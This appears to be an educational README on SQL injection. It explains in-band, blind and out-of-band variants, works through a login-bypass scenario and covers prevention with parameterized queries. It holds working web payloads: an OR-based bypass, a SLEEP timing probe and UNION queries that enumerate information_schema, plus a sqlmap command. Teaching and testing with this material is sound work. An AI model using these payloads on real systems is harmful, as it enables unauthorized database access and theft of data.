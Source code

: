  SQL Injection Guide

## What is SQL Injection?

SQL Injection is a code injection technique that allows attackers to manipulate SQL queries by injecting malicious input into an application. This can lead to unauthorized data access, data modification, or even complete database compromise.

---

## Common Exploits

1. **Authentication Bypass**: Gaining unauthorized access without valid credentials.
2. **Data Extraction**: Retrieving sensitive information from the database.
3. **Database Destruction**: Altering or deleting critical tables or databases.

---

## Types of SQL Injection

### 1. Classic (In-band) SQL Injection
- Exploits direct responses from the database.
- **Example**: 
  ```sql
  ' OR '1'='1' --
  ```

### 2. Blind SQL Injection
- Relies on observing application behavior instead of direct database responses.
- **Example**:
  ```sql
  ' OR IF(1=1, SLEEP(5), NULL) --
  ```

### 3. Out-of-Band SQL Injection
- Uses alternative channels (e.g., DNS or HTTP requests) to exfiltrate data.
- **Example**: 
  Exploiting DNS-based data extraction with crafted payloads.

---

## Examples of SQL Injection Payloads

### 1. Basic Payload: Authentication Bypass
```sql
' OR '1'='1' --
```

### 2. Union-Based Injection: Discover Columns
```sql
' UNION SELECT NULL, NULL, NULL --
```

### 3. Extract Data: Retrieve Table Names
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables --
```

---

## Tools for Testing SQL Injection

1. **SQLMap**:
   - An open-source tool that automates SQL Injection testing.
   - **Example**:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --dbs
     ```

2. **Burp Suite**:
   - A professional tool for intercepting and modifying HTTP requests to test vulnerabilities.

3. **Havij** *(Legacy)*:
   - An older automated SQL Injection tool with a GUI. It is useful for understanding basic attacks but is no longer actively maintained.

---

## Example Scenario

A vulnerable login page processes the following query:
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

An attacker can inject:
```sql
' OR '1'='1' --
```

This transforms the query into:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- AND password = '';
```

Result: The attacker gains access without valid credentials.

---

## Prevention Techniques

1. **Use Parameterized Queries**:
   - Avoid embedding user input directly into queries.
   - **Example (Python)**:
     ```python
     cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
     ```

2. **Validate and Sanitize Inputs**:
   - Ensure user inputs conform to expected formats.

3. **Implement Least Privilege Access**:
   - Restrict database permissions to prevent unauthorized actions.

4. **Deploy a Web Application Firewall (WAF)**:
   - WAFs can detect and block malicious payloads in real-time.

---

## References

- [OWASP SQL Injection Testing Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [SQLMap Official Documentation](https://sqlmap.org/)

